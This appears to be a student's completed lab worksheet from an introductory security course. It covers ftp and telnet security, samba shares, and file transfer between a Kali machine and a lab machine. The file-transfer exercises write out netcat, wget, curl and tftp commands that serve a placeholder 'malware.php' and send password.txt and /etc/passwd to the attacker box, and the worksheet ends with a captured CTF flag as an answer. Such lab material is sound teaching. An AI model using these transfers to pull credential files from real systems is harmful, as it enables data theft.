 1. Is the ftp protocol secured?
    > Your answer : no

1. On your student machine, install the telnet service and connect from your kali machine.
    > No answer required

1. What is the default port for telnet? 
    > Your answer :23

1. Is the telnet protocol secured?
    > Your anbswer : Telnet is vulnerable to network-based cyberattacks
    
1. Create a share file with samba between your Kali machine and your student machine.
    > No answer required

### 6. Downloading Files

#### Pitch
Learning how to transfer files between files different machines.



#### Exercices
1. On your Kali machine, create a file named malware.php.
    ````
    echo "This is a malware file" > malware.php
    ````
    Then, in the same directory, ccreate a temporary server with python on port 5000.
    ````
    python3 -m http.server 5000
    ````
1. On your Student machine, download the malware.txt file with the wget command.
    > Your command : wget 10.40.5.X:5000/malware.php

1. On your Student machine, download the malware.txt file with the cURL command.
    > Your command : curl 10.40.5.X:5000/malware.php --output malware.php

1. On the student machine, create a file named password.txt and transfer it to your kali machine with netcat
    > Your commands : touch password.txt
    > ON RECEIVING END : nc -l -p 1234 > password.txt
    > ON SENDING END : nc -w 3 [destination] 1234 < password.txt

1. On the student machine,  transfer ``/etc/passwd`` file to your kali machine with tftp
    > Your commands :  tftp 10.12.172.105




## 6. Privilege Escalation


### Exercises
1. Find the root flag hidden on your student machine.

> Flag : BC{y0ur_f1r57_r007_fl46#_w3ll_d0n3}
